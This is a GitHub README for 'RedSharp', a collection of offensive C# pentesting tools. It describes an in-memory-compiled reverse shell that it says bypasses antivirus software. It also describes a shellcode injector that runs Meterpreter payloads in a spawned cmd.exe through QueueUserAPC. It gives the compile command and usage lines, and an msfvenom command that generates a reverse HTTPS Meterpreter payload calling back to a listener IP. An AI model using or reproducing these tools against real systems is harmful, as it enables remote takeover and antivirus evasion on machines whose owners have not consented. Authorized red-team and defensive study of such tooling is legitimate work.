 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:sharpthrough.exe Program.cs```  
```
Usage :
sharpthrough.exe IP PORT
```

## SharpMeter
Executing Meterpreter generated shellcode via QueueUserAPC:  
(create a new process, "cmd.exe" in this case, injects and executes shellcode in process memory).  
First, generate your Meterpreter payload in C# format, like this :  
```msfvenom -a x64 -p windows/x64/meterpreter/reverse_https  lhost=10.200.3.163 lport=443 -f csharp -o pay.txt```  
Watch out to your architecture choice! x64 payload will only work with x64 executable version of sharpmeter.  
Do not touch generated payload format (not even the variable name)! Leave it as it is.
```
Usage :
sharpmeter.exe PATH_TO_PAYLOAD

Setup your Meterpreter handler + payload listener on the attacking machine
```
An example payload (x64 format) is attached inside the project. IDE VS 2015, csproj is available.  
This program is capable of running ANY shellcode but you need to be aware of shellcode format; it has to be in "meterpreter" format, so you may eventually convert it (but it's an easy task)
